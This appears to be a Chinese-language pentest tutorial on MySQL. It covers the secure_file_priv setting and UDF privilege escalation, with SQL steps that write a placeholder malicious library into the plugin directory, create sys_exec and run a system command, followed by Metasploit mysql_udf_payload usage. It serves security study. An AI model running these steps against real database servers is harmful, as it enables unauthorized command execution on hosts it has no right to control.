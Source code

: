 # MySQL

在 MySQL 中，`secure_file_priv` 是一个关键的安全配置变量，用于控制是否允许通过 LOAD_FILE() 和 LOAD_DATA 等函数执行文件的导入和导出操作。

```sql
show variables like '%secure_file_priv%';
```

如果值为空（NULL/空字符串），表示未启用文件路径限制，允许从任意路径导入/导出文件。攻击者可利用此配置漏洞写入恶意文件。

## MySQL UDF 提权

MySQL 用户定义函数(UDF)允许通过 C/C++编写扩展功能，但配置不当可能被攻击者利用进行权限提升，获取系统级控制权限。

攻击者利用 MySQL 的`FILE`权限写入恶意动态链接库(.so/.dll)，通过 UDF 机制加载执行，从而以 MySQL 服务账户身份执行系统命令。

利用前提条件：

1. **文件写入权限**：具备`FILE`权限可写文件
2. **插件目录路径**：知晓`plugin_dir`位置(如 Linux 默认`/usr/lib/mysql/plugin/`)
3. **恶意动态库**：预先编译好的恶意 so/dll 文件

`secure_file_priv`

### 环境搭建

### 漏洞利用

定位插件目录

```sql
SHOW VARIABLES LIKE 'plugin_dir';  
```

上传恶意库文件

```sql
SELECT 恶意代码 INTO DUMPFILE '/usr/lib/mysql/plugin/hack.so';
```

创建恶意函数

```sql
CREATE FUNCTION sys_exec RETURNS INT SONAME 'hack.so';
```

执行系统命令

```sql
SELECT sys_exec('whoami');
```

```bash
msf > use exploit/multi/mysql/mysql_udf_payload
msf exploit(mysql_udf_payload) > show targets
        ...targets...
msf exploit(mysql_udf_payload) > set TARGET < target-id >
msf exploit(mysql_udf_payload) > show options
        ...show and set options...
msf exploit(mysql_udf_payload) > exploit
```

### 参考资料

- <https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf>
- <https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf>
